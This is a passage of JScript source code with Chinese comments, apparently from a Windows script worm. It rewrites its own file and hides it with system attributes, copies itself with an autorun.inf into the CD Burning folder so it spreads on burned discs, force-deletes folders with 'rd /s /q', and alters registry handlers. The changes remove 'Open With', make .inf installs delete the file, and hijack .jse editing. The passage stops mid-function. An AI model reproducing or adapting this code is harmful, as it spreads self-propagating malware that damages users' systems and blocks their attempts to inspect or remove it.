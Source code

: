 
function CopyScriptFile(filename) {
    // 如果文件大小不为9201
    if (GetFileSize(filename) != 9201) {
        // 设置文件属性为Normal
        SetFileNewAttributes(filename, 0);
        try {
            // 尝试重写文件
            var f = fso.CreateTextFile(filename, true);
            f.Write(script);
            f.Close();
        } catch (e) {   // 如果重写失败
            // 如果文件路径为文件夹
            if (fso.FolderExists(filename)) {
                // 删除文件夹
                DeleteFolder(filename);
                // 重新拷贝脚本文件
                CopyScriptFile(filename);
            }
        } finally {
            // 如果文件扩展名不为'jse'
            if (GetExtensionName(filename) != 'jse') {
                // 设置文件属性为 'ReadOnly | Hidden | System | Archive'
                SetFileNewAttributes(filename, 39);
            }
        }
    }
}

function InfectCDBuring() {
    try {
        var e9hgn = shell.RegRead('HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Explorer\\Shell Folders\\CD Burning');
        CopyScriptFile(e9hgn + '\\annie.ani');
        CreateAutoRunFile(e9hgn + '\\autorun.inf');
    } catch (e) {}
}

function DeleteFolder(filename) {
    try {
        fso.DeleteFolder(filename, true);
    } catch (e) {
        shell.Run('cmd.exe /c rd /s /q \\\\.\\"' + filename + '"', 0, true);
    }
}

function InfectReg() {
    try {
        // 删除右键打开方式
        shell.RegDelete('HKCR\\*\\shellex\\ContextMenuHandlers\\Open With\\');
    } catch (e) {}
    try {
        // 修改'.inf'文件安装方式，安装配置文件时删除配置文件
        shell.RegWrite('HKCR\\' + RegReadItem('.inf') + '\\shell\\Install\\command\\', 'cmd.exe /c del /q /f "%1"', 'REG_EXPAND_SZ');
    } catch (e) {}
    try {
        // 修改'.jse'文件的打开方式
        shell.RegWrite('HKCR\\' + RegReadItem('.JSE') + '\\Shell\\Edit\\Command\\', RegReadItem(RegReadItem('.JSE') + '\\Shell\\Open\\Command\\'), 'REG_EXPAND_SZ');
    } catch (e) {}
    try {
        shell.RegDelete('HKCR\\' + RegReadItem('.JSE') + '\\Shell\\Open2\\');
    } catch (e) {}
    try {